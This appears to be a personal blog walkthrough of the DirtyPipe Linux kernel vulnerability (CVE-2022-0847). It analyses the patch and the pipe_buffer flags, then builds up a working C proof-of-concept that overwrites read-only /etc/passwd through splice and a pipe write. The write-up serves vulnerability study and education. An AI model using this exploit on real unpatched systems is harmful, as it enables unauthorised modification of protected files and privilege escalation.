

Before DirtyCOW, I looked at DirtyPipe for the CVE n-day practice. I wanted to understand how it worked and it was a fairly new one at that time (July 2023). But its been a while since I did it so this one will be more like a walkthrough than a story-time. I will also include steps that I didn't originally did. I will use Linux Kernel v5.16.10 as the target environment for developing the exploit. Lets jump right in!

# Environment
There's nothing special required for the environment. You just have to download the kernel source and use the default config to compile. If you don't know how to compile, follow [this blog](https://www.ebryx.com/blogs/linux-kernel-compilation-guide).
My setup can be found [here](https://github.com/stdnoerr/stdnoerr.github.io/raw/master/files/kernel/dirtypipe.tar.gz) if you don't want to set it up yourself. The setup includes the `bzImage` and an initramfs.

# Analysis
## The Patch
Like previous post, we will start with the [patch commit](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/lib/iov_iter.c?id=9d2231c5d74e13b2a0546fee6737ee4446017903)
```diff
diff --git a/lib/iov_iter.c b/lib/iov_iter.c
index b0e0acdf96c15e..6dd5330f7a9957 100644
--- a/lib/iov_iter.c
+++ b/lib/iov_iter.c
@@ -414,6 +414,7 @@ static size_t copy_page_to_iter_pipe(struct page *page, size_t offset, size_t by
 		return 0;
 
 	buf->ops = &page_cache_pipe_buf_ops;
+	buf->flags = 0;
 	get_page(page);
 	buf->page = page;
 	buf->offset = offset;
@@ -577,6 +578,7 @@ static size_t push_pipe(struct iov_iter *i, size_t size,
 			break;
 
 		buf->ops = &default_pipe_buf_ops;
+		buf->flags = 0;
 		buf->page = page;
 		buf->offset = 0;
 		buf->len = min_t(ssize_t, left, PAGE_SIZE);
```
The following message accompanied the patch:
```
lib/iov_iter: initialize "flags" in new pipe_buffer

The functions copy_page_to_iter_pipe() and push_pipe() can both allocate a new pipe_buffer, but the "flags" member initializer is missing.
```

The patch and message are straightforward, the vulnerability is uninitialized member bug. The uninitialized member is `flags` of the struct [`pipe_buffer`](https://elixir.bootlin.com/linux/v5.16.10/source/include/linux/pipe_fs_i.h#L26). This bug is found in two functions related to pipes:
1. [`copy_page_to_iter_pipe()`](https://elixir.bootlin.com/linux/v5.16.10/source/lib/iov_iter.c#L384)
2. [`push_pipe()`](https://elixir.bootlin.com/linux/v5.16.10/source/lib/iov_iter.c#L547)
## Pipe Buffer
> Pipes and FIFOs (also known as named pipes) provide a
 unidirectional interprocess communication channel.  A pipe has a
 _read end_ and a _write end_.  Data written to the write end of a pipe
 can be read from the read end of the pipe.
 > &mdash; [pipe(7)](https://man7.org/linux/man-pages/man7/pipe.7.html)

By convention, the first descriptor is the read end and the second is the write end. One can read and write data from/to a pipe whenever they want. Data unread will persist until it is read. reading from an empty pipe and writing to a full pipe (will be discussed later) will block the operation, although pipes can be configured for nonblocking operations using `pipe2` syscall.

In Linux Kernel, pipes are implemented as a virtual filesystem (VFS) and the file descriptors returned belong to pseduo files in this filesystem. Actually, both of the file descriptors point to the same pseudo file but with different permissions (the first has read-only and second has write-only permissions). The inode for these files has the structure [`pipe_inode_info`](https://elixir.bootlin.com/linux/v5.16.10/source/include/linux/pipe_fs_i.h#L58) in its `inode->i_pipe` member (inodes store metadata for files).

Since there is no actual disk memory available for this filesystem, the data is stored in main memory pages. Each page belongs to a single [`pipe_buffer`](https://elixir.bootlin.com/linux/v5.16.10/source/include/linux/pipe_fs_i.h#L26), stored in `pipe_buffer->page` member, for better handling since a pipe can have multiple buffers. The buffer pointers are stored in `pipe_inode_info->bufs` member.

By default, the number of buffers a pipe gets is `16`, making the default capacity `65,536` bytes. But a pipe's capacity can be configured using `fctnl`. `F_GETPIPE_SZ` can be used to query the size (in bytes) and `F_SETPIPE_SZ` can be used to set the size. The minimum limit of a pipe's size is the page size of the system (`4096` for most) and upper limit (for unprivileged user) is 1MiB (`1,048,576`) but the upper limit is configurable via the `/proc/sys/fs/pipe-max-size` using root user.
### `flags`
Since the vulnerability is uninitialization of `flags` member, it needs special attention. The possible values of this member are written [right above](https://elixir.bootlin.com/linux/v5.16.10/source/include/linux/pipe_fs_i.h#L7) the `pipe_buffer` struct. We have to figure out what flag can help us exploit the vulnerability in case it is not removed. At that time (July 2023), I concluded the following about each flag:

| flag                    | description                                                                                                                                                 |
| ----------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------- |
| PIPE_BUF_FLAG_LRU       | set at multiple locations in splice when we acquire a page from a buffer, only used was found on FUSE which just adds the page to LRU Cache                 |
| PIPE_BUF_FLAG_ATOMIC    | never set never used                                                                                                                                        |
| PIPE_BUF_FLAG_GIFT      | set by user through splice and vmplice, if this flag is not set the userspace page is not reused for kernel copying in (vm)splice                           |
| PIPE_BUF_FLAG_PACKET    | for pipes with O_DIRECT flag (can be set through fcntl or pipe2), kernel does not perform buffering and writes the iovecs as “packets”. no useful use found |
| PIPE_BUF_FLAG_CAN_MERGE | for pipes without O_DIRECT, set in pipe_write, used to check if new data that's to be written to the pipe can be copied to this buffer                      |
| PIPE_BUF_FLAG_WHOLE     | set by user in pipe2, if read doesn't read exactly n bytes, return error                                                                                    |
| PIPE_BUF_FLAG_LOSS      | weird flag, for some kind of data loss. The only use found sets pipe->note_loss = true when no more data can be read from the buffer                        |

The only interesting flags seemed to be `PIPE_BUF_FLAG_GIFT` and `PIPE_BUF_FLAG_CAN_MERGE`.
### `PIPE_BUF_FLAG_GIFT`
At first glance, `PIPE_BUF_FLAG_GIFT` seems the right choice since its description tells us that the userspace, essentially, "gifts" the userspace page to the kernel indicating the userspace doesn't need the page anymore and kernel is free to repurpose the page for other things. But the flag doesn't _block_ any attempts to write to the page and doing so can lead weird behavior.

But in order to actually understand this flag's purpose and whether or not it will help us in exploiting the vulnerability, we need to look at the underlying code.

This flag is actually the kernel-space equivalent of the `SPLICE_F_GIFT` flag that can be given to `splice` and `vmsplice` syscalls. `splice` syscall is used to transfer between two file descriptors without copying between kernel-space and userspace, one of the file descriptors has to be a pipe. And `vmsplice` is used to transfer data to or from a pipe and a memory area instead of a file descriptor.

`SPLICE_F_GIFT` is unused in `splice` but when used with `vmsplice` allows the kernel to repurpose the underlying page. `SPLICE_F_GIFT` is used to add `PIPE_BUF_FLAG_GIFT` to the `pipe_buffer` modified by the syscall.

But after reading the code multiple times, I found that `PIPE_BUF_FLAG_GIFT` is a _hint_ rather than an _obligation_ to repurpose the page. So, essentially, it is **allowed** to repurpose the page but NOT required. The only areas where the page is actually repurposed can be seen [here](https://elixir.bootlin.com/linux/v5.16.10/source/drivers/char/virtio_console.c#L875) and [here](https://elixir.bootlin.com/linux/v5.16.10/source/fs/fuse/dev.c#L822)

Since these uses where outside of the core pipe code, I decided to not pursue them. But as a side effect of all this code review, I found a call path between `splice` and `copy_page_to_iter_pipe()`:

In this path, the page passed to `copy_page_to_iter()` is that of the file from which read (splice) is being done. The pages are extracted by [this line](https://elixir.bootlin.com/linux/v5.16.10/source/mm/filemap.c#L2642) by converting the `iov_iter` to `pagevec`. Then each page is given to `copy_page_to_iter()`
This will come handy later.
### `PIPE_BUF_FLAG_CAN_MERGE`
`PIPE_BUF_FLAG_PACKET` and `PIPE_BUF_FLAG_CAN_MERGE` are reciprocal of each other. The former makes each write and read from/to a single `pipe_buffer` while the latter allows multiple requests, to and from the pipe, to share a `pipe_buffer`.
This can potentially be dangerous if the page being written to is a page that shouldn't be shared. This hypothesis is also supported by the CVE description that reads:
>An unprivileged local user could use this flaw to write to pages in the page cache backed by read only files and as such escalate their privileges on the system.

The `pipe_buffer`-sharing flag is only set [here](https://elixir.bootlin.com/linux/v5.16.10/source/fs/pipe.c#L527) in [`pipe_write`](https://elixir.bootlin.com/linux/v5.16.10/source/fs/pipe.c#L414), the function responsible for writes on pipe file descriptors.
It is set when a new `pipe_buffer` is allocated and `O_DIRECT` is not set on the pipe. A new buffer is allocated when the previous one is full or cannot be shared (doesn't have `PIPE_BUF_FLAG_CAN_MERGE` flag). But the page in this case is allocated via `alloc_page` so it is completely fine to write to it.

But if we look at the patch again, the buffer in `copy_page_to_iter_pipe()` doesn't allocate a page so it's probably our target function. And since we have a valid call path between `splice` and `copy_page_to_iter_pipe()`, we can test this theory.

The `splice` syscall also has an other angle to it that makes it a requirement to exploit this vulnerability. The function `copy_page_to_iter_pipe()` is only called when the `struct iov_iter *` passed to `copy_page_to_iter()` has the type `ITER_PIPE` (indicating that the iovec is a vector of pipes) and as it turns out, this type is only set [in splice](https://elixir.bootlin.com/linux/v5.16.10/source/fs/splice.c#L307).
## Mid summary
So we identified that `PIPE_BUF_FLAG_CAN_MERGE` is the flag we need to set in the uninitialized flags for the function `copy_page_to_iter_pipe()` since its the function that uses the provided page and we need to utilize this via the discovered call path from `splice` in order to get to that function.
# Exploitation
## 1. Create pipe
First things first, we need to actually allocate a pipe in order to actually exploit and vulnerability. While we are at it, lets also open a file that we only have read-only access to; to test if we can actually write to it and for `splice`. For now, lets use `/etc/passwd` as our target file.
```C
#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>

#define TARGET_FILE "/etc/passwd"

int main() {
    int fd;
    int pipefd[2];

	// 1. Create pipe and open target file
    if ((fd = open(TARGET_FILE, O_RDONLY)) == -1) {
        perror("open");
        return 1;
    }

    if (pipe(pipefd) == -1) {
        perror("pipe");
        return 1;
    }

    return 0;
}
```
## 2. Assign `PIPE_BUF_FLAG_CAN_MERGE` to pipe's buffers
We need to make sure that when we make the `splice` syscall to call `copy_page_to_iter_pipe()` the `pipe_buffer` has `PIPE_BUF_FLAG_CAN_MERGE` flag in it. We will use [this](https://elixir.bootlin.com/linux/v5.16.10/source/fs/pipe.c#L487) code path in `pipe_write` to do this.
It's a pretty obvious code path that is triggered whenever we perform `write` on the `pipe[1]` file descriptor. We just need to fill it completely to put the flag in all buffers and then just simply read the data. This will drain the pipe and free the pages but the flag will remain.
Since, by default, a pipe has `16` buffers and each can hold `4096` bytes, we will have to write `16*4096` bytes. But we can change the size of the pipe to reduce the number of pipe buffers and ultimately reach the goal early. We will set the pipe's size to `4096` or 1 buffer so we only have to write `4096` bytes to it.
```c
#define _GNU_SOURCE
#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>

#define TARGET_FILE "/etc/passwd"

int main() {
    int fd;
    int pipefd[2];
    char buffer[4096];

    // 1. Create pipe and open target file
    if ((fd = open(TARGET_FILE, O_RDONLY)) == -1) {
        perror("open");
        return 1;
    }

    if (pipe(pipefd) == -1) {
        perror("pipe");
        return 1;
    }

    // 2. Shrink the pipe to 4096 bytes, fill the pipe and then drain it
    fcntl(pipefd[0], F_SETPIPE_SZ, sizeof(buffer));
    write(pipefd[1], buffer, sizeof(buffer));
    read(pipefd[0], buffer, sizeof(buffer));

    return 0;
}
```
## 3. Trigger vulnerability via splice
Since the path to vulnerable function `copy_page_to_iter_pipe()` is via `splice` and it goes through `splice_file_to_pipe()`, we will perform a `splice` from the target file to the pipe. Since `copy_page_to_iter_pipe()` will get the file's page, the buffer's page will be replaced with that of the file's.
Subsequent writes to pipe should write to the file's, even thought it is read-only. The splice size will be `1` to use the lowest value possible to trigger the vulnerability.
```c
#define _GNU_SOURCE
#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>

#define TARGET_FILE "/etc/passwd"

int main() {
    int fd;
    int pipefd[2];
    char buffer[4096];

    // 1. Create pipe and open target file
    if ((fd = open(TARGET_FILE, O_RDONLY)) == -1) {
        perror("open");
        return 1;
    }

    if (pipe(pipefd) == -1) {
        perror("pipe");
        return 1;
    }

    // 2. Shrink the pipe to 4096 bytes, fill the pipe and then drain it
    fcntl(pipefd[0], F_SETPIPE_SZ, sizeof(buffer));
    write(pipefd[1], buffer, sizeof(buffer));
    read(pipefd[0], buffer, sizeof(buffer));

    // 3. Trigger the vulnerability via splice
    if (splice(fd, NULL, pipefd[1], NULL, 1, 0) < 0) {
        perror("splice");
        close(fd);
        close(pipefd[0]);
        close(pipefd[1]);
        return 1;
    }

    return 0;
}
```
## 4. Write to the target file
At this point, the file's page is being used as the `pipe_buffer`'s backing page. Now, writing to the pipe should overwrite the file's content.
```c
#define _GNU_SOURCE
#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>

#define TARGET_FILE "/etc/passwd"

int main() {
    int fd;
    int pipefd[2];
    char buffer[4096];

    // 1. Create pipe and open target file
    if ((fd = open(TARGET_FILE, O_RDONLY)) == -1) {
        perror("open");
        return 1;
    }

    if (pipe(pipefd) == -1) {
        perror("pipe");
        return 1;
    }

    // 2. Shrink the pipe to 4096 bytes, fill the pipe and then drain it
    fcntl(pipefd[0], F_SETPIPE_SZ, sizeof(buffer));
    write(pipefd[1], buffer, sizeof(buffer));
    read(pipefd[0], buffer, sizeof(buffer));

    // 3. Trigger the vulnerability via splice
    if (splice(fd, NULL, pipefd[1], NULL, 1, 0) < 0) {
        perror("splice");
        close(fd);
        close(pipefd[0]);
        close(pipefd[1]);
        return 1;
    }

    // 4. Overwrite the target file
    write(pipefd[1], "stdnoerr", 8);

    lseek(fd, 0, SEEK_SET);
    read(fd, buffer, 60);
    buffer[60] = '\0'; // Null-terminate the buffer

    printf("Data read from target file: %s\n", buffer);

    return 0;
}
```
### Output
Running the above code in my test environment gives the following output:

If you look closely, you will see that the `r` of `root` is still there before the string `stdnoerr`. This is because when we spliced the page, the pipe buffer's pointer was set to whatever size we specified.
This highlights a limitation of DirtyPipe, it cannot overwrite the first byte of the file. But luckily, this is rarely required.
# Limitations
DirtyPipe has a few limitations:
1. It cannot overwrite the first byte
2. It cannot write more than `PAGE_SIZE - 1` bytes
3. It cannot overwrite memory pages; the data to be overwritten should be on disk
4. It cannot write contents more than the file's original size
# Conclusion
It was fun trying to understand DirtyPipe, unraveling it like a puzzle and then putting these pieces together to make an exploit. The vulnerability turned out to quite simple and easy to exploit, albeit with some limitations.

Hopefully, it was helpful to you as well. If you found any mistake or want to chat up, hit me up on discord or twitter.
## Helpful articles
- https://dirtypipe.cm4all.com/
- https://www.aquasec.com/blog/deep-analysis-of-the-dirty-pipe-vulnerability/
- https://lolcads.github.io/posts/2022/06/dirty_pipe_cve_2022_0847/